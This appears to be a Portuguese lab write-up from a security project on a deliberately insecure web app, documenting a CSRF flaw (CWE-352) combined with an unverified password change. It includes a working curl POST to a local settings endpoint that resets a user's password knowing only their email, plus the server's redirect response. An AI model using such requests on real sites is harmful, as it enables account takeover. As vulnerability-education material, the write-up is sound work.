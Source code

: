 ## CWE-352: Cross-Site Request Forgery (CSRF)
- https://cwe.mitre.org/data/definitions/352.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-352-cross-site-request-forgery-csrf).**

---
## Exploração da vulnerabilidade

Na aplicação insegura, nem as páginas enviam um CSRF token, nem o servidor confirma a sua existência.

Aproveitando a vulnerabildidade [Unverified Password Change](CWE-620.md) e sabendo o email de um utilizador, é possível alterar-lhe a password, sem saber a atual, com um POST para a página das *Account Settings*. Para isso, não é necessário estar autenticado nem sequer estar no website, uma vez que o CSRF token não é verificado pelo servidor.

Usando o comando ```curl```, para enviar pedidos HTTP na linha de comandos do sistema operativo, é possível explorar esta vulnerabilidade.

**Código exemplo**:

PEDIDO:
```bash
# Ataque CSRF bem-sucedido: alterar a password do utilizador com email "target@example.com" para "xyz"
curl -X POST http://localhost:[PORT]/settings -H "Content-Type: application/x-www-form-urlencoded" -d "email=target@example.com&new_password=xyz"
```
RESPOSTA:
```html
<!-- A resposta é um redirect para a página de login, o que significa que a password foi alterada -->
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
```

